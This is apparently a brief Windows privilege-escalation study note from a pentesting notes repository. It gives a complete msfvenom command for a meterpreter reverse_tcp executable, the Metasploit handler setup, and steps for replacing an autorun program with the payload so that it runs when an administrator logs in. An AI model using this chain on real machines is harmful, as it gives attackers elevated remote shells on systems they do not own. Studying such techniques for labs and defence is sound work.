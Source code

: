 create a msfvenom payload  using command
`msfvenom -p windows/meterpreter/reverse_tcp lhost=IP -f exe -o program.exe`
be sure to check the executable and name our exploit same as payload name 

by default lport is set to 4444


open metasploit in kali 
1) use /exploit/multi/handler 
2) set payload windows/meterpreter/reverse_tcp 
3) set option 



as we knew  the path of program.exe from enumeration  start the web server go the location from GUI replace the current file with our file don

login as admin and done
<br><br>
![](/Windows-Privilege-Escalation-Notes/windows_images/autorun-4-meterpreter.png)
